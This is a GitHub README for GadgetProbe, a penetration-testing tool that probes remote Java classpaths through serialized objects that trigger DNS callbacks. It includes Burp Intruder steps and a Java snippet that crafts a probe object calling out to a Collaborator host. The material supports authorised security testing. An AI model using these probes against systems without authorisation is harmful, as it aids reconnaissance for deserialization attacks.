



<p align="center">
  
</p>

#


## Description

You just found a Java deserialization bug, you ran all your ysoserial payloads, and.... you got nothing. What now? How can you debug or build a gadget chain if you're totally blind?

Introducing GadgetProbe, a tool that shines a light on remote classpaths and raises bug severity for all!

GadgetProbe takes a wordlist of Java classes, outputs serialized DNS callback objects, and reports what's lurking in the remote classpath.

### Burp Extension Usage

The Burp extension automatically integrates with Burp Collaborator to handle DNS callbacks. The extension also includes signatures and an analyzer to identify library versions of popular sources for gadgets.

Download the [release](https://github.com/BishopFox/GadgetProbe/releases/) or follow the [build instructions](#building-from-source) below.

After loading the Burp extension:

1. Send the vulnerable request to intruder, highlighting the vulnerable parameter.



2\. Add a list of Java classes (see included wordlists)



3\. Add the GadgetProbe payload processor, and any other required processors in your chain (e.g., Base64 encode).



4\. Run the intruder attack and watch the results come back in the GadgetProbe Burp Tab.


### GadgetProbe Java Library Usage

GadgetProbe can also be used as a Java library or CLI for specialized attacks.

```java
import com.bishopfox.gadgetprobe.GadgetProbe
...
// Call the GadgetProbe constructor with your authoritative nameserver (or use Burp collaborator).
GadgetProbe gp = new GadgetProbe("dnscallback.burpcollaborator.net");
// The crafted object "obj" is now ready to be sent using any custom implementation :)
Object obj = gp.getObject("org.apache.commons.collections.functors.invokertransformer");

```

### Building from Source
```bash
# Build JAR (run first)
./gradlew shadowJar

# Build wordlists
./generate_wordlists.sh
```

### How it works

See my [write-up](https://labs.bishopfox.com/tech-blog/gadgetprobe) on the Bishop Fox blog.

### Author

Twitter: [@theBumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
